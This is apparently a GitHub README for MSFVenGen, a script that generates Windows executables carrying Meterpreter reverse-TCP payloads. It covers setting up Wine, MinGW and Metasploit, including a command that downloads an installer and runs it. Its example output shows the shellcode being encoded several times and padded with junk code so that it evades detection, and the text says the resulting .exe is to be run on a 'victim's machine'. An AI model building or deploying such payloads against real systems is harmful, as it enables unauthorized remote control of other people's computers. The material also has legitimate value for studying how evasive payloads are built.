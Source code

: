 # MSFVenGen

MSFVenGen - Custom MSFVenom Executable Generator

### Requirements

- Linux
- Wine + MinGW
- Metasploit Framework

### Installing

##### Install Wine

Wine allows windows applications to be run on several platforms such as Linux, Mac OS X and more.

To install Wine just run this command:

    sudo apt-get install wine

##### Install MinGW

MinGW is a collection of windows development tools including compilers such as GCC and G++. Using both MiniGW and Wine it is possible to compile windows code thus creating a portable executable (pe) which can be later run on a victim's machine.

- Go to [SourceForge](http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download) to download the installer.
- In a terminal use `wine /path/to/file/mingw-get-setup.exe`
- Select "Run with GUI" option

Note that you must have the GUI up in order to get the installer to run properly. You can run it in a terminal however it draws a GUI box for installation.

- When the window appears, make sure to select mingw32-base. This is required to continue and make things work properly. Select Installation and click Update Catalogue.
- You want to get the right DLLs to be able to compile properly. You can find them here: [Go Jhonny!](http://gojhonny.com/misc/mingw_bin.zip)
- Unzip them into your Windows directory in wine. Its location should be `/home/USERNAME/.wine/drive_c/windows`

Great! Now you can use gcc.exe!

Syntax:

    cd /home/USERNAME/.wine/drive_c/MinGW/bin
    wine gcc.exe -o file.exe sourcefile.c

##### Metasploit Framework

The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine. Other important sub-projects include the Opcode Database, shellcode archive and related research.

The Metasploit Project is well known for its anti-forensic and evasion tools, some of which are built into the Metasploit Framework.

To install Metasploit Framework just run this command:

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall

### Usage

    ./msfvengen.sh

### Example output
    MSFVenGen - Custom MSFVenom Executable Generator
    
    LHOST?
    > 192.168.0.102
    LPORT?
    > 4444
    We will be using the windows/meterpreter/reverse_X payloads. Which would you like to use?
    > windows/meterpreter/reverse_tcp
    How many cycles we encode our shellcode?
    > 1
    Number of random seed to add some junk to the resulting C code source file:
    > 1
    
    Attempting to clean the ShellCode directory out...
    Attempting to generate shell-code...
    Attempting to read payload from STDIN...
    Attempting to read payload from STDIN...
    Attempting to read payload from STDIN...
    Attempting to read payload from STDIN...
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of generic/none
    generic/none succeeded with size 333 (iteration=0)
    generic/none chosen with final size 333
    Payload size: 333 bytes
    
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 360 (iteration=0)
    x86/shikata_ga_nai chosen with final size 360
    Payload size: 360 bytes
    
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/jmp_call_additive
    x86/jmp_call_additive succeeded with size 389 (iteration=0)
    x86/jmp_call_additive chosen with final size 389
    Payload size: 389 bytes
    
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/call4_dword_xor
    x86/call4_dword_xor succeeded with size 416 (iteration=0)
    x86/call4_dword_xor chosen with final size 416
    Payload size: 416 bytes
    
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 443 (iteration=0)
    x86/shikata_ga_nai chosen with final size 443
    Payload size: 443 bytes
    Final size of c file: 1886 bytes
    Saved as: /home/lonalore/msfvengen/ShellCode/test.c
    Shellcode generated.
    Cleaning it up...
    Creating Headers...
    Creating the first bit of fluff
    Creating the execution bit...
    Creating the last bit of fluff...
    Merging the last of it together...
    tcp-4444-826.exe SHA-1 Checksum is .. 088a3b485993622d450b534cead0ff5aa1701524 tcp-4444-826.exe
    
    Done!
